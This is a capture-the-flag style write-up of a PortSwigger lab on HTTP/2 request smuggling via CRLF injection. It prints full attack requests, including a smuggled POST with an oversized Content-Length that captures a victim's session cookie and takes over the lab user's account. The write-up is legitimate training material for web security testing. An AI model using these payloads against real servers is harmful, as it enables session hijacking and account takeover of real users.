 # HTTP/2 request smuggling via CRLF injection | Feb 15, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection), you'll learn: HTTP/2 request smuggling via CRLF injection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

> Note:
>  
> This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215141623.png)

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215141726.png)

In here, the web application has a login page. That being said, **if we can capture other user's requests, we could potentially takeover their account.**

To do so, we can try to do **HTTP request smuggling**.

**First, test the web application accept HTTP/2 (HTTP version 2) or not:**

> To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142016.png)
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142033.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142050.png)

As you can see, it accepts HTTP/2.

Now, we can test the web application is vulnerable to **H2.CL (Front-end uses HTTP/2, back-end uses `Content-Length` header) via downgrading HTTP/2 requests.**

- H2.CL:

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Length: 25

smuggled=yes
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142532.png)

However, when we send the request, nothing happen.

We can also try **H2.TE (Front-end uses HTTP/2, back-end uses `Transfer-Encoding` header) via downgrading HTTP/2 requests.**

- H2.TE:

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X:Foo: x
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144447.png)

Still nothing?

Maybe we can do **request smuggling via CRLF (Carriage Return `\r`, Line Feed `\n`) injection?**

Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the `content-length` or stripping any `transfer-encoding` headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.

In HTTP/1, we can sometimes exploit discrepancies between how servers handle standalone newline (`\n`) characters to smuggle prohibited headers. If the back-end treats this as a delimiter, but the front-end server does not, some front-end servers will fail to detect the second header at all.

```http
Foo: bar\nTransfer-Encoding: chunked
```

This discrepancy doesn't exist with the handling of a full CRLF (`\r\n`) sequence because all HTTP/1 servers agree that this terminates the header.

On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split:

`foo``bar\r\nTransfer-Encoding: chunked`

This may seem relatively harmless on its own, but when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers:

```http
Foo: bar
Transfer-Encoding: chunked
```

Let's try to **inject `Transfer-Encoding` header via CRLF injection**!

**To do so, we need to use the Inspector to drill down into the header, add a new header, then press the `Shift + Return` keys in the value input box:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144531.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144559.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144618.png)

Then send the request twice:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144637.png)

Yes! We successfully triggered a 404 response! Which means **the web application is vulnerable to HTTP request smuggling via H2.TE and CRLF injection!**

But, how can we capture users' request in the login page??

**In the home page, we can search something:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144813.png)

Let's search for anything:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144830.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144839.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144854.png)

When we clicked the "Search" button, **it'll send a POST request to `/`, with parameter `search`.**

***Most importantly, it's stored in our session!***

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145004.png)

Armed with above information, we can capture other users' requests via **smuggling a POST request to `/` with a big `Content-Length` value.**

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
foo: bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Cookie: session=g5VS4PaNaMcMZ1uI02pCFquZaqDzxPW4; _lab_analytics=WKesnTTuo8aqDwQZi1tet4JIbNutweZ7odsZVzSSLjPiagwKcmsIKJMVDq0UPBXuGn04iuFmgisVdmi9vBegM8v0V072K5R4dZhnMwSyZFyJ2UKw5wgMVsMb4VAehnlg2thHlf4WqEXcOVZcmH0HkTilNqh4DLOwpikt9VGEAiRR4L24jChh4282BHUaiKZWY5pGPKXbyEJrPfHedNvv50yDmjm6pbAgZreZJCkCM7nB9IAddhomuaPrF8vY5E1o
Content-Type: application/x-www-form-urlencoded
Content-Length: 800

search=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145829.png)

**Then, in the home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145848.png)

We captured the victim's session cookie!!

**Finally, modify our session cookie to the victim one:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215150026.png)

Boom! We takeovered `carlos` account!

# What we've learned:

1. HTTP/2 request smuggling via CRLF injection
